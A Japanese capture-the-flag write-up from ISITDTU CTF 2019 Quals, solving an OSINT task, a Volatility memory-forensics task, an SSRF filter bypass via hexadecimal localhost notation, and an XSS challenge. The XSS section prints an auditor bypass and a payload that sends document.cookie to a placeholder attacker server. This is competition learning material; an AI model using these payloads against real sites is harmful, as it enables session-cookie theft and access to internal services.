


6 月 29 日から 6 月 30 日にかけて開催された [ISITDTU CTF 2019 Quals](https://ctf.isitdtu.com/) に、チーム zer0pts として参加しました。最終的にチームで 7655 点を獲得し、順位は得点 327 チーム中 10 位でした。うち、私は 5 問を解いて 1600 点を入れました。

他のメンバーの write-up はこちら。

- [ISITDTU CTF 2019 Quals Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2019/06/30/215929)
- [ISITDTU CTF 2019 Quals Writeup - ふるつき](https://furutsuki.hatenablog.com/entry/2019/06/30/224649)
- [ISITDTU CTF 2019 Quals Writeup - pomoの掃きだめ](https://pomo-mhskmq.hatenablog.com/entry/2019/07/01/012545)

以下、私が解いた問題の write-up です。

## Misc
### F4c3b00k (100)
> I put a flag at our fanpage, but I forgot where it is, can you help me find a flag?

運営チームである [ISITDTU の Facebook ページ](https://www.facebook.com/isitdtu)でフラグフォーマットの `ISITDTU{` を検索してみると、[昨年の投稿](https://www.facebook.com/isitdtu/posts/1079736168870052)のコメント欄がヒットしました。

`ISITDTU{fl4g_1s_n0t_h3r3}` とのことですが、どう見ても本物のフラグではありません。よく見ると、コメントの下に「編集済み」と書かれています。



これをクリックすると編集履歴が見られ、本物のフラグが得られました。



```
ISITDTU{f4c3b00k_s0_fun}
```

### Easy husky (534)
> I found someone using my personal computer to do something shady. Fortunately, I have recorded these actions in time, you can check what he did on my computer. The reward is a flag for you.
> 添付ファイル: husky_memory.rar

`husky_memory.rar` を展開すると `husky_memory.raw` というメモリダンプと思わしきファイルが出てきました。[Volatility](https://github.com/volatilityfoundation/volatility) を使って解析していきましょう。

まず、[imageinfo](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#imageinfo) で解析対象の OS 等の情報を確認しましょう。

```
>volatility_2.6_win64_standalone.exe -f husky_memory.raw imageinfo
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : WinXPSP2x86, WinXPSP3x86 (Instantiated with WinXPSP2x86)
                     AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                     AS Layer2 : FileAddressSpace (D:\…\husky_memory.raw)
                      PAE type : PAE
                           DTB : 0x334000L
                          KDBG : 0x8054d2e0L
          Number of Processors : 2
     Image Type (Service Pack) : 3
                KPCR for CPU 0 : 0xffdff000L
                KPCR for CPU 1 : 0xf7d65000L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2019-06-04 05:54:33 UTC+0000
     Image local date and time : 2019-06-04 12:54:33 +0700
```

`WinXPSP2x86` のようです。Internet Explorer でなにか閲覧していなかったか、[iehistory](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#iehistory) で閲覧履歴を見てみましょう。

```
>volatility_2.6_win64_standalone.exe -f husky_memory.raw iehistory
Volatility Foundation Volatility Framework 2.6
︙
Process: 1352 explorer.exe
Cache type "URL " at 0x2795000
Record length: 0x100
Location: :2019060420190605: Anh TU@file:///C:/Documents%20and%20Settings/All%20Users/Start%20Menu/Programs/Games/Password%20hu5ky_4nd_f0r3n51c/flag.rar
Last modified: 2019-06-04 12:18:49 UTC+0000
Last accessed: 2019-06-04 05:18:49 UTC+0000
File Offset: 0x100, Data Offset: 0x0, Data Length: 0x0
︙
```

`C:/Documents and Settings/All Users/Start Menu/Programs/Games/Password hu5ky_4nd_f0r3n51c/` というフォルダにある `flag.rar` というファイルを参照しています。

[filescan](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#filescan) で `C:/Documents and Settings/All Users/Start Menu/Programs/Games/Password/` 下にあるファイルを探してみましょう。

```
>volatility_2.6_win64_standalone.exe -f husky_memory.raw filescan > filescan.txt
>grep Games filescan.txt
0x00000000028ccd30      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Spider Solitaire.lnk
0x00000000028ccf28      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Solitaire.lnk
0x0000000002953c00      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\desktop.ini
0x00000000029c5138      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Freecell.lnk
0x0000000002c5dd18      1      0 R--r-- \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\hu5ky_4nd_f0r3n51c\f149999
0x0000000002c94138      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Pinball.lnk
0x0000000002c94330      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Minesweeper.lnk
0x0000000002c94528      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Internet Spades.lnk
0x0000000002c94720      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Internet Reversi.lnk
0x0000000002c94918      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Internet Hearts.lnk
0x0000000002c94b10      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Internet Checkers.lnk
0x0000000002c94d08      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Internet Backgammon.lnk
0x0000000002c94f00      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\All Users\Start Menu\Programs\Games\Hearts.lnk
```

マインスイーパー等へのショートカットリンクの中に `f149999` という怪しげなファイルが紛れています。これを [dumpfiles](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#dumpfiles) で抽出してみましょう。

```
>volatility_2.6_win64_standalone.exe -f husky_memory.raw dumpfiles -D dump -r f149999
>ls dump
file.None.0x826a7488.dat
>file dump/file.None.0x826a7488.dat
dump/file.None.0x826a7488.dat: data
```

どんなファイルか謎です。`xxd` で見てみましょう。

```
>xxd dump/file.None.0x826a7488.dat
0000000: c8a2 53fc 97d6 3780 105c 1469 dbea 473a  ..S...7..\.i..G:
0000010: 49a3 331b 57bd 178e 8091 866c 24e3 f521  I.3.W......l$..!
0000020: d7a2 68e6 0eef fbc2 f323 633c 1dac a4c6  ..h......#c<....
0000030: b1aa d148 20c5 be0e 46da 82be ae75 da63  ...H ...F....u.c
0000040: f0f1 1862 5fa1 088c 49a3 331b 57bd 178e  ...b_...I.3.W...
0000050: f80e b273 de86 8d23 94e2 b9b9 f4f6 a459  ...s...#.......Y
0000060: 8afa 7552 0205 4ed6 23cf 0b38 fc7b dbf2  ..uR..N.#..8.{..
0000070: 6008 d237 f3f0 af91 7668 4735 1ff2 88a1  `..7....vhG5....
0000080: 2146 a3eb dab3 38aa 615e 8736 bf8b f244  !F....8.a^.6...D
0000090: 02cf 00d3 c944 aaf4 07c9 b134 237a 72ef  .....D.....4#zr.
00000a0: 77fc c9e1 3b19 bbf3 8289 543d 9e1e 059a  w...;.....T=....
00000b0: 3bf0 d46e b9be ca69 9ed1 e626 365d 1334  ;..n...i...&6].4
00000c0: 49a3 331b 57bd 178e 0000 0000 0000 000d  I.3.W...........
00000d0: 0080 7399 ce00 071a 2172 6152 0000 0000  ..s.....!raR....
00000e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000f0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000100: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000110: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000120: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000130: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000140: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000150: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000160: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000170: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000180: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000190: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00001a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
︙
```

謎のバイト列の後ろに null バイトが延々続いています。よく見ると、謎のバイト列の後ろの方に `!raR` と Rar のマジックナンバーの前後が逆転したようなバイト列があります。

`!raR` より後ろの null バイトを除去した上で、前後を逆転させてみましょう。

```
>python3
>>> s = open('dump/file.None.0x826a7488.dat', 'rb').read()
>>> open('result.rar', 'wb').write(s[:s.index(b'!raR')+4][::-1])
>>> exit()
>file result.rar
result.rar: RAR archive data, v9a,
```

Rar ファイルが出てきました。

`result.rar` を展開しようとするとパスワードが要求されました。`Password hu5ky_4nd_f0r3n51c` というフォルダの名前から、`hu5ky_4nd_f0r3n51c` をパスワードとして入力すると展開することができました。

出てきた `flag.txt` からフラグが得られました。

```
ISITDTU{1_l0v3_huskyyyyyyy<3}
```

## Web
### Rosé Garden (100)
> Rosé is a beautiful singer with a sweet voice, but she is so much busy and she needs more staff to work in her garden. (URL)

与えられた URL にアクセスすると、`/request` へのリンクが表示されました。

`/request` にアクセスすると、以下のような URL を入力するフォームが表示されました。

```html
    <div class="container my-4">
      <div class="row">
        <div class="col-sm">
          <form method="POST">
            <div class="form-group">
              <label for="url">Your URL:</label>
              <input type="text" class="form-control" id="url" name="url" aria-describedby="urlpHelp" placeholder="172.217.19.227[:80]">
              <small id="urlpHelp" class="form-text text-muted">We'll keep your website secret.</small>
            </div>
            <button type="submit" class="btn btn-primary">Submit</button>
          </form>
        </div>
      </div>
    </div>
```

しかしながら、何を入力しても `Oops, something was wrong...` と表示されます。

ここでしばらく悩んでいましたが、なんとなく [webf**k](https://github.com/m---/webfuck) を回してみると `/robots.txt` が存在していることがわかりました。これは以下のような内容でした。

```
User-Agent: *
Disallow: /source.zip
```

`/source.zip` にアクセスすると、この Web アプリケーションのソースコードが得られました。

```python
#!/usr/bin/env python
from flask import Flask, render_template, request, send_from_directory, abort
from concurrent.futures import ThreadPoolExecutor
from urllib.parse import urlparse
from socket import inet_aton

import requests
import asyncio

app = Flask(__name__)
app.jinja_env.lstrip_blocks = True
app.jinja_env.trim_blocks = True

async def check_func(hostname, port):
    try:
        if len(hostname.split('.')) != 4: 0/0

        if '127.' in hostname or '.0.' in hostname or '.1' in hostname: 0/0

        if inet_aton(hostname) != b'\x7f\x00\x00\x01': 0/0

        if not port: port = 80
        
        result = []
        with ThreadPoolExecutor(max_workers=3) as executor:
            loop = asyncio.get_event_loop()
            tasks = [
                loop.run_in_executor(
                    executor,
                    lambda u: requests.get(u, allow_redirects=False, timeout=2),
                    url
                ) for url in [f'http://{hostname}:{port}', 'http://127.0.0.1:3333']
            ]
            for res in await asyncio.gather(*tasks):
                result.append(res.text)
    except:
        return False

    return result[1] if result[0] == result[1] else False

@app.route('/<path:path>')
def send_static(path):
    return send_from_directory('static', path)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/request', methods=['GET', 'POST'])
def request_page():
    if 'url' in request.form and request.form['url']:
        url = request.form['url']
        if url[:7] != 'http://':
            url = 'http://' + url

        host_info = urlparse(url)._hostinfo

        asyncio.set_event_loop(asyncio.new_event_loop())
        loop = asyncio.get_event_loop()
        FLAG = loop.run_until_complete( asyncio.ensure_future( check_func(*host_info) ) )
        if FLAG:
            return render_template('request.html', flag=FLAG)
        else:
            return render_template('request.html', error=True)

    return render_template('request.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80, debug=False)
```

`/request` に関連している部分を抜き出します。

```python
async def check_func(hostname, port):
    try:
        if len(hostname.split('.')) != 4: 0/0

        if '127.' in hostname or '.0.' in hostname or '.1' in hostname: 0/0

        if inet_aton(hostname) != b'\x7f\x00\x00\x01': 0/0

        if not port: port = 80
        
        result = []
        with ThreadPoolExecutor(max_workers=3) as executor:
            loop = asyncio.get_event_loop()
            tasks = [
                loop.run_in_executor(
                    executor,
                    lambda u: requests.get(u, allow_redirects=False, timeout=2),
                    url
                ) for url in [f'http://{hostname}:{port}', 'http://127.0.0.1:3333']
            ]
            for res in await asyncio.gather(*tasks):
                result.append(res.text)
    except:
        return False

    return result[1] if result[0] == result[1] else False
```

以下の条件を満たすとフラグが得られるようです。

- URL のホスト名が `.` を 4 つだけ含んでいる
- URL のホスト名に `127.` `.0.` `.1` のいずれも含まれない
- URL のホスト名が `127.0.0.1` を指す
- 与えられた URL の内容と `http://127.0.0.1:3333` の内容が同じ

`return result[1] if result[0] == result[1] else False` から `http://127.0.0.1:3333` の内容がフラグであることがわかります。

`inet_aton` が柔軟で、`0x7f.0.0.1` のように 16 進数が含まれるような IP アドレスであってもちゃんとパースしてくれることを利用しましょう。

`http://0x7f.0x0.0x0.0x1:3333` を入力するとフラグが得られました。

```
>curl http://45.77.247.11/request -d "url=http://0x7f.0x0.0x0.0x1:3333"
︙
            <div class="alert alert-success" role="alert">
              Wow! You are so cool. This is flag for you: <b>ISITDTU{warmup task is not that hard}</b>
            </div>
︙
```

```
ISITDTU{warmup task is not that hard}
```

### XSSgame1 (856)
> This is a XSS game, Try execute script and get cookie in Chrome 
> (URL)

与えられた URL にアクセスすると、XSS 可能なページ (`/?pl=xss`) と bot に URL をクロールさせられるページ (`submit.php`) へのリンクが表示されました。

`/?pl=xss` にアクセスしてみます。

```html
/*** We prevent change the location ***:
<script>Object.freeze(location);</script>xss<br><script>location='http://xss';</script>
```

`</script>` の直後と `location` に代入される URL の部分にユーザ入力が出力されるようです。

`'` やバックティックを入力すると `Not Allow` と表示され弾かれてしまいますが、`<` `>` `"` 等についてはそのまま出力され XSS が可能です。

HTTP レスポンスヘッダを見ると `Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';sandbox allow-scripts allow-same-origin` のように CSP によって同じオリジン以外に `img` 要素等でリクエストを発生させられないようにしていることがわかります。また、`X-XSS-Protection: 1; mode=block` のように XSS Auditor がブロックモードで有効化されています。

まず XSS Auditor をバイパスする方法を考えましょう。[Browser's XSS Filter Bypass Cheat Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#2%E3%81%A4%E4%BB%A5%E4%B8%8A%E3%81%AE%E6%B3%A8%E5%85%A5%E3%83%9D%E3%82%A4%E3%83%B3%E3%83%88%E3%81%8C%E3%81%82%E3%82%8B%E5%A0%B4%E5%90%88) を参考に、`/?pl=%22;console.log(1)//%3Cscript%3Ea=%22` でバイパスできました。

```html
/*** We prevent change the location ***:
<script>Object.freeze(location);</script>";console.log(1)//<script>a="<br><script>location='http://";console.log(1)//<script>a="';</script>
```

あとは `location.href="http://(攻撃者のサーバ)?"+document.cookie` でフラグが得られそうですが、`Object.freeze(location);` によって `location` オブジェクトが凍結されており、できません。

`location` オブジェクトには `location.href` のように URL を代入することで遷移させることのできるプロパティのほか、[`location.assign`](https://developer.mozilla.org/ja/docs/Web/API/Location/assign) という引数として URL を与えることで同様の動作をする関数があります。これなら代入の必要はなく、`Object.freeze` の影響は受けません。

これを利用して、`/?pl=";location.assign("http://(攻撃者のサーバ)?"%2bdocument.cookie)//<script>a="` でフラグが得られました。

```html
/*** We prevent change the location ***:
<script>Object.freeze(location);</script>";location.assign("http://(攻撃者のサーバ)?"+document.cookie)//<script>a="<br><script>location='http://";location.assign("http://(攻撃者のサーバ)"+document.cookie)//<script>a="';</script>
```

```
ISITDTU{0274fdcad72fb003e36bb77d9ef2279b3eb3f519}
```

---

`/*** We prevent change the location ***:` という怪しげなコメント (`/*` から始まっているのに `*/` で閉じられていない) が気になるのですが、これを `<script src="?pl=*/…">` みたいな感じで利用するのが想定解法なのでしょうか。